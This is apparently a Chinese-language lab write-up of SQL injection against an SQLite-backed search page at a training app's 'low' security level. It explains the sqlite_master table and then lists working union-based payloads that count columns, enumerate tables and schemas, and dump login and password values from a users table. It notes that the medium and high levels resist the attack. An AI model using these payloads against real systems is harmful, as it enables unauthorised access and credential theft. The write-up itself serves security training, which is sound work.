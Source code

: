 - **medium&high**
  无法注入

## (SQLite)
- SQLite介绍
  > SQLite含有一张内置表“sqlite_master”,表里存储着type、name、tbl_name、rootpage、sql五个字段。
  
    |字段| 记录信息|
    |- |-|
    |type列   |  项目的类型，如table、index、view、trigger|
    |tbl_name|  所从属的表名，如索引所在的表名。对于表来说，该列就是表名本身；|
    |name    |  项目的名称，如表名、索引名等；|
    |rootpage|  项目在数据库页中存储的编号。对于视图和触发器，该列值为0或者NULL|
    |sql     |  存放着所有表的创建语句，即表的结构。|


- **low**
  首先安装php sqlite模块:
  ```shell
  apt-get install sqlite3
  apt-get install php5-sqlite
  service apache2 restart
  ```
  搜索 man,有三个结果,可见为模糊查询
  ![](https://i.imgur.com/FbhHIsf.png)

  于是尝试注入: 
  ![](https://i.imgur.com/6QKXtqH.png)
  接下来常规操作:
  - 判断字段数: `%' order by 6 --`
  - 判断字段顺序: `%' union select 1,2,3,4,5,6 --`
  ![](https://i.imgur.com/NE8EKjS.png)
  - 查表: `%' union select 1,sqlite_version(),name,5,4,6 from sqlite_master --`
  ![](https://i.imgur.com/OjJjgnm.png)
  - 查字段: `%' union select 1,sqlite_version(),sql,5,4,6 from sqlite_master --`
  ![](https://i.imgur.com/hLGOhoT.png)
  - 取值: `%' union select 1,2,login,password,4,6 from users --`
  ![](https://i.imgur.com/PHdKKdB.png)
  - 解密
  ![](https://i.imgur.com/XS7Vji4.png)

- **medium&high**
  无法注入
